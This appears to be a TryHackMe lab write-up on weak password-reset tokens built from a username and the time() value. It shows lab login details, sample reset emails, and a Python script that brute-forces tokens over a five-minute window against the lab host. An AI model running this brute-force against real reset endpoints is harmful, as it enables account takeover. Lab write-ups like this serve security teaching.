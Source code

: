 check inbox
```
random.thm:8090/mail

victim@mail.random.thm
Testing@123

-----
You have requested a password reset. Please click the following link to reset your password: 

http://random.thm:8090/case/reset_password.php?token=victim1738619144

If you did not request this password reset, please ignore this email.
-----
You have requested a password reset. Please click the following link to reset your password: 

http://random.thm:8090/case/reset_password.php?token=victim1738619200

If you did not request this password reset, please ignore this email.
-----

```

- On the surface, this may seem like a convenient way to generate unique tokens for each password reset request. However, it introduces significant security weaknesses.

### Exploitation

- An attacker can exploit the weak entropy in the reset token by visiting the following reset link: `http://random.thm:8090/case/reset_password.php?token={Username}{timestamp_of_token_generation}`
- Since the token is generated by concatenating the username with the result of the `time()` function, the attacker knows that the `time()` value represents the timestamp when the reset link was created. With this knowledge, the attacker can perform brute force attacks by guessing nearby timestamps, either manually by trying timestamps a few seconds before and after the reset request or through automation using a script.
- Below is a Python script that accepts command-line arguments for the username and timestamp and brute-forces the reset token by attempting timestamps within 5 minutes before the provided timestamp. [This](https://www.unixtimestamp.com/) website can be used to get the current UNIX timestamp.
- You can adjust the time range by changing `-300` to any other value (in seconds) to avoid waiting too long or testing a more specific time window. For example, `-600` will try tokens within a range of `-10` minutes instead of `5`.

```python
# exploit.py
import requests 
import sys 
# Function to brute force the reset token 
def brute_force_token(username, start_timestamp): 
	url = "http://random.thm:8090/case/reset_password.php" 
	# Try tokens within a range of -5 minutes 
	for i in range(-300, 0): 
		current_timestamp = start_timestamp + i 
		token = f"{username}{current_timestamp}" 
		params = {'token': token} 
		response = requests.get(url, params=params) 
		# Check if the token is valid 
		if "Invalid or expired token." not in response.text: 
			print(f"Correct token identified: {token}") 
			return token 
		else: 
			print(f"Tried token: {token} (Invalid)") 
	
	print("No valid token found in the given range.") 
	return None 

```